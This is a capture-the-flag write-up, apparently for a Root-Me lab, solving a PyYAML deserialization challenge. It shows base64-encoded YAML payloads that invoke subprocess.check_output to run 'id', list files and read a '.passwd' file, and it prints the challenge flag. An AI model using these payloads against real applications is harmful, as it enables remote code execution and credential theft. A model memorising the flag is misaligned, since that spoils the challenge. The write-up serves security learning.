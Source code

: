```yaml
---
layout: default
title: Yaml-Deserialization
---
```


Here we can see we access 
```
http://challenge01.root-me.org:59071/eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg
```
And recieve the message:
```
We are currently initializing our new site !
```

However, when we base64 decoded this string `eWFtbDogV2UgYXJlIGN1cnJlbnRseSBpbml0aWFsaXppbmcgb3VyIG5ldyBzaXRlICEg` we get: `yaml: We are currently initializing our new site ! `, Okay, let's try inject our payload, for example: `yaml : Injected`:
```
eWFtbCA6IEluamVjdGVk
```
![injected](./images/Yaml-Deserialization_inject_working.png)

Okay, now I went to [PayloadAllTheThings Insecure Deserialization](https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/Python/#pyyaml), and we can see this payload:
```
!!python/object/new:subprocess.check_output [["id"]]
```

Let's try giving it:
```
eWFtbDogISFweXRob24vb2JqZWN0L25ldzpzdWJwcm9jZXNzLmNoZWNrX291dHB1dCBbWyJpZCJdXQ==
```
Okay, it's working
![command inject](./images/Yaml-Deserialization_command_inject.png)

Now, let's find the flag, first `ls -a`:
```
!!python/object/new:subprocess.check_output [["ls","-a"]]
```
and we got:
```
b'.\n..\nch71.py\nch71.tar.gz\n._firewall\n.git\n.gitignore\n._nginx.server-level.inc\n.passwd\n._perms\nrequirements.txt\n._run\nstatic\ntemplates\nyaml\nyaml_3.13.tar.gz\n'
```
Okay, let's `cat .passwd`
```
yaml: !!python/object/new:subprocess.check_output [["cat",".passwd"]]
```
![FINAL](./images/Yaml-Deserialization_FINAL.png)

**Flag:** ***`561385a008727f860eda1afb7f8eba76`***
